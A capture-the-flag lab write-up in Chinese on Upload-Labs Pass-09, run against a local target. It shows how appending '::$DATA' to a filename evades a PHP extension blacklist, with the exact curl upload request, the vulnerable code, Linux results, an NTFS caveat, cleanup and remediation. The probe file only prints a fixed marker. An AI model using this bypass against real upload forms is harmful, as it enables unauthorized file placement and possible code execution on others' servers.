

Upload-Labs Pass-09：::$DATA 扩展名绕过
Pass-09 仍然使用扩展名黑名单。由于服务端只把最后一个点之后的文本取出来检查，文件名追加 ::$DATA 后，检查值是 .php::$data，不会命中黑名单里的 .php。本文记录请求构造、源码根因、Linux 实测结果和精确清理过程。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-09 |
| 目标 | http://127.0.0.1:8081/Pass-09/index.php |
| 漏洞类型 | 扩展名黑名单与平台路径语义不一致 |
| 绕过后缀 | ::$DATA |
| 验证文件 | 只输出固定文本的无副作用 PHP 探针 |
| 运行环境 | Linux / WSL、PHP 8.4 内置服务器、ext2/ext3 文件系统 |
| 验证结果 | 黑名单绕过并成功落盘；Linux 下返回 PHP 源码，未确认代码执行 |
二、请求观察
表单文件字段名为 upload_file。下面的 Burp 截图保留了 Pass-09 页面、请求中的文件名和响应页面。文件名以 .php::$DATA 结尾，响应页已经生成了指向上传目录的图片标签：

一句话木马.php::$DATA；响应页出现上传文件的图片框。三、构造复现请求
为了让验证不包含可执行命令，准备一个只输出固定标记的探针：
<?php echo "PASS09_FILTER_BYPASS_OK"; ?>使用 curl 发送 multipart 请求，并在 filename= 后追加 ::$DATA：
curl.exe -sS -i \
-F 'upload_file=@pass09_probe.php;filename=pass09_probe.php::$DATA' \
-F 'submit=上传' \
http://127.0.0.1:8081/Pass-09/index.php本次请求返回 200 OK，响应 HTML 中生成：
<img src="../upload/202610290215553208.php::$data" width="250px" />$is_upload 只有在 move_uploaded_file() 成功后才会变为真，所以生成这个标签说明校验已放行，文件也已写入上传目录。
四、漏洞定位
Pass-09 的核心逻辑可以简化为：
$deny_ext = array(".php", ".php5", ".phtml", ...);
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext);
$file_ext = trim($file_ext);
if (!in_array($file_ext, $deny_ext)) {
$img_path = UPLOAD_PATH.'/'
. date("YmdHis")
. rand(1000, 9999)
. $file_ext;
move_uploaded_file($_FILES['upload_file']['tmp_name'], $img_path);
}对 pass09_probe.php::$DATA 的处理过程如下：
| 阶段 | 结果 |
|---|---|
trim($file_name) | 保留 pass09_probe.php::$DATA |
deldot() | 只处理末尾点号，对当前后缀无影响 |
strrchr($file_name, '.') | 得到 .php::$DATA |
strtolower() | 得到 .php::$data |
trim() | 仍为 .php::$data |
in_array() | 不等于 .php，黑名单放行 |
move_uploaded_file() | 以随机名加 .php::$data 保存 |
根因是安全判断只理解普通文件名，而实际文件路径还可能被操作系统解释为带有数据流语法的名称。判断值 .php::$data 与用户想使用的 .php 语义不一致，黑名单因此失效。
五、落盘与访问验证
检查服务端实际生成的文件：
stat --printf='name=%n\nsize=%s\nmode=%A\n' \
'/home/ctf/labs/upload-labs/upload/202610290215553208.php::$data'文件大小为 41 字节，权限为普通可读文件。随后请求对应 URL：
curl.exe -sS -i \
'http://127.0.0.1:8081/upload/202610290215553208.php::$data'响应状态为 200 OK，响应正文是：
<?php echo "PASS09_FILTER_BYPASS_OK"; ?>返回的是 PHP 源码，而不是 PASS09_FILTER_BYPASS_OK，说明当前 PHP 内置服务器没有把这个 Linux 文件名识别为可执行的 .php 脚本。因此本机可以确认：
::$DATA已绕过 Pass-09 的扩展名黑名单。- 文件已成功写入 Web 可访问的
upload/目录。 - 文件可以直接通过 HTTP 读取。
- Linux/WSL 环境中的代码执行未确认。
六、Windows ADS 场景的边界
经典 Upload-Labs 常运行在 Windows 环境。:$DATA 是 NTFS 数据流语法的一部分；在某些 Win32 路径处理组合下，file.php::$DATA 会解析到 file.php 的默认数据流，从而让 Web 服务器最终按 .php 处理。
| 环境 | 文件路径行为 | 本次验证 |
|---|---|---|
| Linux / WSL | :$DATA 只是文件名中的普通字符 | .php::$data 原样落盘，返回源码 |
| Windows / NTFS | 可能解析为文件默认数据流，最终映射到 .php | 本次未在 Windows 靶场验证，不宣称已获得 RCE |
七、清理上传文件
实验结束后按完整随机文件名删除探针；原有测试木马也使用同样的精确路径清理：
rm -- \
'/home/ctf/labs/upload-labs/upload/202610290213408985.php::$data' \
'/home/ctf/labs/upload-labs/upload/202610290215553208.php::$data'删除后再次请求两个 URL 均返回 404 Not Found，而目录自带的 readme.php 仍返回 200 OK。这说明清理只命中本次测试文件，没有使用批量删除或“清空上传文件”按钮。
八、修复建议
- 不要用扩展名黑名单作为安全边界，改用服务端扩展名白名单。
- 忽略客户端文件名，由服务端生成随机文件名和固定安全扩展名。
- 在保存前拒绝冒号、数据流标记、路径分隔符、尾随点号和尾随空格等平台特殊字符。
- 同时检查 MIME、文件头和实际文件内容；图片应重新解码并编码。
- 将上传目录移出 Web 根目录，或在 Web 服务器层禁止该目录执行脚本。
九、复盘
Pass-09 利用的是“PHP 看到的后缀”和“操作系统理解的路径”之间的差异。Linux 把这串字符当成普通文件名，Windows/NTFS 则可能赋予 ::$DATA 特殊语义。正确的实验结论必须区分校验绕过、成功落盘、HTTP 访问和代码执行四个阶段，并以实际平台结果为准。